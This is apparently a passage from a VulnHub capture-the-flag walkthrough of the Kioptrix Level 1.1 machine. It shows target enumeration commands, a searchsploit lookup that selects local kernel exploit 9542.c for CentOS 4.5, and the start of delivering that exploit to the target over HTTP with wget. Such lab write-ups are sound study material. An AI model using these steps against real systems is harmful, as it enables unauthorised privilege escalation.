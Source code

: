 ##### Step 3.4.1: System Information

```bash
# Target's Interactive Bash
uname -a
```
```bash
# Target's Interactive Bash
lsb_release -a
```
```bash
# Target's Interactive Bash
cat /etc/*release
```

![System Information](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/osdetails.png)

- Here Target is Using `Linux kernel 2.6.9` and `CentOS 4.5` operating system.

##### Step 3.4.2: Searching For Exploit

```bash
# Attacker's Shell
searchspolit linux kernel centos 4.5
```
![searchspolit](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/searchspolit.png)
- Here second one matching with linux kernel version so, we are using it.
- `linux_x86/local/9542.c` exploit on **Exploit Database**


##### Step 3.4.3: Delivery Exploit To Target

we using `wget` to transfer file from Atacker to Target by Establishing http server of
Attacker.

Make Sure that *exploitation file in home directory*.
```bash
# Attacker's Shell
cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c Desktop/vlunhub/kioptrix_2
```
